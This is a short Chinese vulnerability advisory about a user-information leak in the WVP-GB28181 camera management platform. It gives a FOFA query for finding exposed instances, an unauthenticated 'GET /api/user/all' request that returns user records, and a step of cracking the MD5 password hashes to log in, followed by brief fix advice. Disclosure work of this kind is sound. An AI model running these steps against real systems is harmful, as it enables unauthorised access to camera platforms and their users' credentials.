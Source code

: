 #  WVP-GB28181摄像头管理平台user信息泄露漏洞   
原创 骇客安全  骇客安全   2025-01-31 04:02  
  
漏洞描述WVP-GB28181摄像头管理平台 user 信息泄露漏洞，攻击者可利用此漏洞收集敏感信息，从而为下一步攻击做准备。漏洞复现1、fofabody="国标28181"2、部分界面如下 3、隐患url，验证如下GET /api/user/all HTTP/1.1Host: your-ip4、解密密码md5值即可登录后台 修复建议1、请联系厂商进行修复。 2、如非必要，禁止公网访问该系统。 3、设置白名单访问。  
  
